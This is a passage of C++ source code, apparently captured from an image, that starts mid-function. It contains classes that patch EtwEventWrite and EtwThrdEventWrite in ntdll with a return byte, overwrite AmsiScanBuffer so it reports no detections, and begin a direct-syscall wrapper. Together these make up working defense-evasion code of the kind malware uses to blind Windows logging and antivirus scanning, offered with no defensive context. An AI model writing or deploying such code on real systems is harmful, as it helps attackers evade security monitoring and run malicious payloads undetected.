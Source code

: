         VirtualProtect(pEtwEventWrite, 1, PAGE_EXECUTE_READWRITE, &oldProtect);
        *(BYTE*)pEtwEventWrite = 0xC3;  // ret
        VirtualProtect(pEtwEventWrite, 1, oldProtect, &oldProtect);
    }
    
    static void DisableETWTI() {
        DWORD oldProtect;
        void* pEtwThrdEventWrite = GetProcAddress(GetModuleHandleW(L"ntdll.dll"), "EtwThrdEventWrite");
        
        VirtualProtect(pEtwThrdEventWrite, 1, PAGE_EXECUTE_READWRITE, &oldProtect);
        *(BYTE*)pEtwThrdEventWrite = 0xC3;
        VirtualProtect(pEtwThrdEventWrite, 1, oldProtect, &oldProtect);
    }
    
public:
    static void DisableETW() {
        PatchETW();
        DisableETWTI();
    }
};

class AMSIBypass {
private:
    static void PatchAMSI() {
        HMODULE hAmsi = LoadLibraryW(L"amsi.dll");
        if (!hAmsi) return;
        
        void* pAmsiScanBuffer = GetProcAddress(hAmsi, "AmsiScanBuffer");
        if (!pAmsiScanBuffer) return;
        
        DWORD oldProtect;
        VirtualProtect(pAmsiScanBuffer, 1, PAGE_EXECUTE_READWRITE, &oldProtect);
        
#ifdef _WIN64
        *(BYTE*)pAmsiScanBuffer = 0x48;  // xor rax, rax
        *((BYTE*)pAmsiScanBuffer + 1) = 0x31;
        *((BYTE*)pAmsiScanBuffer + 2) = 0xC0;
        *((BYTE*)pAmsiScanBuffer + 3) = 0xC3;  // ret
#else
        *(BYTE*)pAmsiScanBuffer = 0x31;  // xor eax, eax
        *((BYTE*)pAmsiScanBuffer + 1) = 0xC0;
        *((BYTE*)pAmsiScanBuffer + 2) = 0xC3;  // ret
#endif
        
        VirtualProtect(pAmsiScanBuffer, 1, oldProtect, &oldProtect);
    }
    
public:
    static void DisableAMSI() {
        PatchAMSI();
    }
};

class DirectSyscall {
private:
    typedef NTSTATUS(NTAPI* pNtAllocateVirtualMemory)(
        HANDLE ProcessHandle,
        PVOID* BaseAddress,
        ULONG_PTR ZeroBits,
        PSIZE_T RegionSize,
        ULONG AllocationType,
        ULONG Protect
    );
    